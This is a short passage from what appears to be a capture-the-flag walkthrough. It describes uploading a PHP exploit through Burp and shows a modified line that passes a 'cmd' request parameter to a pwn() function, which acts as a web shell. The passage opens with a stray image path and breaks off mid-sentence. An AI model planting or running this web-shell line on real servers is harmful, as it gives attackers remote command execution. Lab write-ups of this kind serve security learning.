 fireup burp and upload it.

lets modify our exploit to work best with our case.
change this line.
![uplaod](/images/compromised/change_this_line.png)

```shell
if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); pwn($cmd); echo "</pre>";}
```
looks like 

